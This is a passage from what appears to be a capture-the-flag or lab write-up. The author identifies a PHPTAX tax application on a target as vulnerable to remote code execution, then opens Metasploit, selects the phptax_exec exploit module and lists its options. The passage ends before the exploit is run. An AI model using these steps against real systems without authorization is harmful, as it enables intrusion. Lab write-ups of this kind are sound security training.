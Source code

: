 Oh... well that's not good! It seems that this is some kind of Tax Return Program called __PHPTAX__. 

A quick Google search revealed that this software was vulnerable to a [Remote Code Execution Attack](https://www.exploit-db.com/exploits/21665/).

Alright, let's fire up [Metasploit](https://www.metasploit.com/) and see if we can't exploit this.

```console
root@kali:~# msfconsole 
                                                  

MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMM                MMMMMMMMMM
MMMN$                           vMMMM
MMMNl  MMMMM             MMMMM  JMMMM
MMMNl  MMMMMMMN       NMMMMMMM  JMMMM
MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM
MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM
MMMMR  ?MMNM             MMMMM .dMMMM
MMMMNm `?MMM             MMMM` dMMMMM
MMMMMMN  ?MM             MM?  NMMMMMN
MMMMMMMMNe                 JMMMMMNMMM
MMMMMMMMMMNm,            eMMMMMNMMNMM
MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM
MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM
        http://metasploit.com


Taking notes in notepad? Have Metasploit Pro track & report
your progress and findings -- learn more on http://rapid7.com/metasploit

       =[ metasploit v4.13.8-dev                          ]
+ -- --=[ 1607 exploits - 914 auxiliary - 278 post        ]
+ -- --=[ 471 payloads - 39 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]


msf > use exploit/multi/http/phptax_exec 

msf exploit(phptax_exec) > options

Module options (exploit/multi/http/phptax_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /phptax/         yes       The path to the web application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   PhpTax 0.8
```